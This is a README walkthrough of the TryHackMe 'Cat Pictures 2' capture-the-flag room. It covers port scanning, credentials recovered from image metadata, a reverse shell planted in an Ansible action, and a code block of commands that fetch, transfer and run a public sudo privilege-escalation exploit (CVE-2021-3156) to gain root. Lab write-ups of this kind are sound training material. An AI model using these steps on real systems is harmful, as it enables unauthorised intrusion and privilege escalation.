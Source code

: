 # Cat Pictures 2 CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Cat Pictures 2** CTF challenge on [TryHackMe](https://tryhackme.com/room/catpictures2). 
---

we see open ports: 22,80,222,1337,3000,8080

![scn](imgs/scn.png "scn")

feroxbuster scan but we dont have permissions for most of them

![ferox](imgs/ferox.png "ferox")

in one of the pictures we see Description: strip metadata

![d](imgs/d.png "d")

if we run exiftool on this picture we can find `:8080/REDACTED.txt`

![e](imgs/e.png "e")

from this txt file we got user and password

![n](imgs/n.png "n")

now we can login into gitea on port 3000, we can find first flag there

![git](imgs/git.png "git")

![g1](imgs/g1.png "g1")

![f](imgs/f.png "f")

if we head to port 1337 we can see actions that we can execute 

![1337](imgs/1337.png "1337")

by look at logs of the action, we see that ansible code is executing

![l](imgs/l.png "l")

we can modify it to include reverse shell

![c](imgs/c.png "c")

we got access as bismuth we can grab second flag, we also can grab his private key for stable access

![f2](imgs/f2.png "f2")

after transfering linpeas we see that we have vulnerable sudo version

![sd](imgs/sd.png "sd")

we can use this to exploit `https://github.com/blasty/CVE-2021-3156`

```
--- our machine ---
$ git clone https://github.com/blasty/CVE-2021-3156
$ tar -czvf exp.gz.tar CVE-2021-3156

--- victim machine ---
$ tar xopf exp.gz.tar
$ cd CVE-2021-3156/
$ make
$ ./sudo-hax-me-a-sandwich
$ ./sudo-hax-me-a-sandwich 1
```

now we have root access and root flag

![root](imgs/root.png "root")

# MACHINE PWNED
